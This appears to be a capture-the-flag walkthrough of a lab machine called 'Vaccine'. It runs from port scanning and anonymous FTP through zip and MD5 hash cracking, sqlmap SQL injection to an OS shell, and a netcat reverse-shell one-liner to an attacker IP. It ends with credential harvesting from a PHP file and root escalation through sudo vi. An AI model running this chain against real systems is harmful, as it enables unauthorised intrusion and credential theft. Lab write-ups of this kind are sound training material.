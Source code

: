 ![Vaccine.jpg](/assets/vaccine.jpg)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.129.36.42
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.36.42
```


**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


3. Connect for **ftp** with username **anonymous**
```bash
┌──(root㉿est)-[/home/kali]
└─| ftp 10.129.36.42
220 (vsFTPd 3.0.3)
Name (10.129.36.42:kali): anonymous
```

4. Get **backups.zip**
```bash
ftp> ls
229 Entering Extended Passive Mode (|||10516|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
```

5. Use **zip2john** to obtain hash to crack
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| zip2john backup.zip > hash.txt
```

6. Crack the password with **john** and use **rockyou.txt** dictionary
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| john --wordlist=./../rockyou.txt hash.txt 
```

7. Show the password to decrypt **backups.zip**
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| john --show hash.txt
```

**Output**
```bash
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
```

* Password is **741852963**


8. Unzip **backups.zip** and look the files.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| unzip backup.zip 
```

```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| ls 
```

**Output**
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| ls
backup.zip  hash.txt  index.php  style.css
```

9. Cat **index.php**
```bash
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>MegaCorp Login</title>
  <link href="https://fonts.googleapis.com/css?family=Open+Sans:400,700" rel="stylesheet"><link rel="stylesheet" href="./style.css">

</head>
  <h1 align=center>MegaCorp Login</h1>
<body>
<!-- partial:index.partial.html -->
<body class="align">

  <div class="grid">

    <form action="" method="POST" class="form login">

      <div class="form__field">
        <label for="login__username"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#user"></use></svg><span class="hidden">Username</span></label>
        <input id="login__username" type="text" name="username" class="form__input" placeholder="Username" required>
      </div>

      <div class="form__field">
        <label for="login__password"><svg class="icon"><use xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="#lock"></use></svg><span class="hidden">Password</span></label>
        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
      </div>

      <div class="form__field">
        <input type="submit" value="Sign In">
      </div>

    </form>


  </div>

  <svg xmlns="http://www.w3.org/2000/svg" class="icons"><symbol id="arrow-right" viewBox="0 0 1792 1792"><path d="M1600 960q0 54-37 91l-651 651q-39 37-91 37-51 0-90-37l-75-75q-38-38-38-91t38-91l293-293H245q-52 0-84.5-37.5T128 1024V896q0-53 32.5-90.5T245 768h704L656 474q-38-36-38-90t38-90l75-75q38-38 90-38 53 0 91 38l651 651q37 35 37 90z"/></symbol><symbol id="lock" viewBox="0 0 1792 1792"><path d="M640 768h512V576q0-106-75-181t-181-75-181 75-75 181v192zm832 96v576q0 40-28 68t-68 28H416q-40 0-68-28t-28-68V864q0-40 28-68t68-28h32V576q0-184 132-316t316-132 316 132 132 316v192h32q40 0 68 28t28 68z"/></symbol><symbol id="user" viewBox="0 0 1792 1792"><path d="M1600 1405q0 120-73 189.5t-194 69.5H459q-121 0-194-69.5T192 1405q0-53 3.5-103.5t14-109T236 1084t43-97.5 62-81 85.5-53.5T538 832q9 0 42 21.5t74.5 48 108 48T896 971t133.5-21.5 108-48 74.5-48 42-21.5q61 0 111.5 20t85.5 53.5 62 81 43 97.5 26.5 108.5 14 109 3.5 103.5zm-320-893q0 159-112.5 271.5T896 896 624.5 783.5 512 512t112.5-271.5T896 128t271.5 112.5T1280 512z"/></symbol></svg>

</body>
<!-- partial -->
  
</body>
</html>
```

#### Of all file we go to use:
```bash
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
```

10. Crack **2cb42f8734ea607eefed3b70af13bbd3** use MD5, use https://crackstation.net/
![vaccine-md5.PNG](/assets/vaccine-md5.PNG)

* The password to login are: username **admin** and password **qwerty789**


11. Login with credentials

![vaccine-web.PNG](/assets/vaccine-web.PNG)


12. Use **BurpSuite** to capture a petition searching any thing.
![vaccine-search.PNG](/assets/vaccine-search.PNG)
![vaccine-petition.PNG](/assets/vaccine-petition.PNG)

13. Put the output of petition on **r.req** file
14. Use **sqlmap** to find vulnerabilities
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| sqlmap -r r.req  
```
> Here know the database service **Postgres**
---
Get a shell
```bash
┌──(root㉿est)-[/home/kali/Desktop/Vaccine]
└─| sqlmap -r r.req --os-shell
```

15. Listen on port 4444 and use **https://www.revshells.com/** to get a reverse shell
```bash
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.250 4444 >/tmp/f
```

16. With new shell spawn a **/bin/bash**
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

17. cat and grep for search any password in path `/var/www/html` on file `cat dashboard.php`
```bash
postgres@vaccine:/var/www/html$ cat dashboard.php | grep -i 'pass'
```


**Output**
```bash
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

18. With password **P@s5w0rd!** login to ssh
```bash
┌──(kali㉿est)-[~]
└─$ ssh postgres@10.129.36.42
```


19. Get a **User flag**
```bash
postgres@vaccine:~$ ls
11  user.txt
postgres@vaccine:~$ cat user.txt 
ec9b13ca4d6229cd5cc1e09980965bf7
```

20. List posibles binaries to exploit
```bash
postgres@vaccine:~$ sudo -l
```

**Output**
```bash
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

21. Use https://gtfobins.github.io/ to search exploit with **vi**
![vaccine-vi.PNG](/assets/vaccine-vi.PNG)


22. Edit file **/bin/vi /etc/postgresql/11/main/pg_hba.conf**
```bash
postgres@vaccine:~/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

23. Spawn a **terminal with root** and cat a flag

```bash
# cd root
# ls
pg_hba.conf  root.txt  snap
# cat root.txt  
dd6e058e814260bc70e9bbdef2715849
```